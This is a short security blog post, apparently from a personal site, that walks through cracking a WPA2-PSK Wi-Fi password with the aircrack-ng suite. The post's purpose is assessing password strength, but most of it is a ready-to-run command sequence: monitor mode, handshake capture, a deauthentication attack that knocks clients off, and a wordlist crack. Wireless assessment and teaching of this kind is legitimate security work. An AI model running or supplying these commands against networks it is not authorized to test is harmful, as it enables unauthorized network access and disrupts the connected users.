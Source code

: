 ```yaml
---
title: Password Cracking WPA2 PSK Networks
author: Tarus
date: 2023-06-02 16:51:00 +0300
categories: [Hacks]
tags: [wpa2, wifi, mac address, kali linux, airmon-ng]
---
```



WPA2-PSK

## Activities performed
- Evaluating strength of PSK
- Reviewing nearby networks, rogue devices
- Assessing guest networks ( how hard the password is to crack, is there a password, check if the guest network has some functionality that the main network have
- Checking network access

## Tools used
- wireless card supports dual band, monitor mode and packet injection.Plug and Play Wireless usb adapter -  https://amzn.to/3RQ6XCr
- Router
- Laptop

## Hacking Process
image.png

## Code

```plaintext
iwconfig                        #wlan0 ifconfig but wireless, check if usb card is working
airmon-ng check kill            #kill processes that may interfere with what we are about to do
airmon-ng start wlan0           #allows wireless card to monitor incoming traffic
iwconfig                        #wlan0mon                #confirm
airodump-ng wlan0mon            #finding the wireless network we want to specifically attack

#bssid - mac address of access point
#PWR(power level) - the lower the number the closer we are to the device
#beacons and data - show traffic happening on those bssids

airodump-ng -c 6 --bssid 50:C7:BF:8A:00:73 -w capture wlan0mon     #tries to capture the 3 way handshake
#-c = channel of the device
#-w capture = name of the file where the capture will be stored

#to speed the above process, do the deauth attack
#open another terminal
aireplay-ng -0 1 -a 50:C7:BF:8A:00:73 -c 50:C7:BF:8A:00:74 wlan0mon
#-0 = deauth attack
#1 = only one time
#-c = client we want to deauth

aircrack-ng -w wordlist.txt -b 50:C7:BF:8A:00:73 capture.cap
#-b = AP mac address
```
